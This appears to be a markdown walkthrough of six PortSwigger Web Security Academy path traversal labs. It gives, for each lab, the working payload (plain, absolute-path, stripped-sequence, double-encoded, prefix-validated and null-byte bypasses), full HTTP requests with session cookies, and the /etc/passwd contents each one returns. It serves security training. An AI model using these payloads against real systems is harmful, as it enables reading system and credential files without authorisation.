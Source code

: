 # Path traversal



<details>
  <summary>Lab: File path traversal, simple case</summary>

> ###  This lab contains a path traversal vulnerability in the display of product images.

> To solve the lab, retrieve the contents of the ``/etc/passwd`` file. 

---


```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a2500db0303cf80806758fe00510063.web-security-academy.net
Cookie: session=FjSr0b5uAZUO6lhUe4bTHc0OPpR9zuaO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

``response``

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```




  
</details>









<details>
  <summary>Lab: File path traversal, traversal sequences blocked with absolute path bypass</summary>

> ###  This lab contains a path traversal vulnerability in the display of product images.The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

> To solve the lab, retrieve the contents of the ``/etc/passwd`` file. 

----


```http
GET /image?filename=/etc/passwd HTTP/2
Host: 0a71007004dfbf768057c61e0072001f.web-security-academy.net
Cookie: session=PAgXQSxOjxM96lXj3t8xXsMNnWAR4XCg
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

``response``

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

> ### ``../../../../../etc/passwd`` blocked traversal sequences ``../../../../../``



  
</details>









<details>
  <summary>Lab: File path traversal, traversal sequences stripped non-recursively</summary>

> ###  This lab contains a path traversal vulnerability in the display of product images.The application strips path traversal sequences from the user-supplied filename before using it.

> To solve the lab, retrieve the contents of the ``/etc/passwd`` file. 

---

```http
GET /image?filename=....//....//....//....//etc/passwd HTTP/2
Host: 0ab10060036243ab80bec6ad008e00b7.web-security-academy.net
Cookie: session=fuycmUXNJSHrlEnFlNpRNYI3LQqvqrqy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



```

```url
/image?filename=....//....//....//....//etc/passwd
```


``response``


```http
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

```



> ### server remove ``../../`` so if you repeat it it will remove just one 
  
</details>









<details>
  <summary>Lab: File path traversal, traversal sequences stripped with superfluous URL-decode</summary>

> ###  This lab contains a path traversal vulnerability in the display of product images.The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

> To solve the lab, retrieve the contents of the ``/etc/passwd`` file. 


---

> ### this lab block ``../../`` if you do ``url-encode`` to it one time will decode it and block it

>> ### so you encode it **``twice``** so he check not found ``../../`` and when do decode not found also and he stop check after that do decode again it became ``../../`` but it will not blocked 

```
/image?filename=..%252F..%252F..%252F..%252Fetc%252Fpasswd
```


``response``


```http
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

```



  
</details>









<details>
  <summary>Lab: File path traversal, validation of start of path</summary>

> ###  This lab contains a path traversal vulnerability in the display of product images.The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

> To solve the lab, retrieve the contents of the ``/etc/passwd`` file. 


---


> #### the web app check the path if it start with ``/var/www/images/`` real path of photo it will open the file if not will not open it 


```
/image?filename=/var/www/images/../../../../etc/passwd
```


``response``


```http
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

```



  
</details>






<details>
  <summary>Lab: File path traversal, validation of file extension with null byte bypass</summary>


> ###  This lab contains a path traversal vulnerability in the display of product images.The application validates that the supplied filename ends with the expected file extension.

> To solve the lab, retrieve the contents of the ``/etc/passwd`` file. 

---

> #### it check form file extension ``.png`` or ``jpg``

```url
../../../etc/passwd%00.png
```





``response``


```http
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

```
  
</details>


























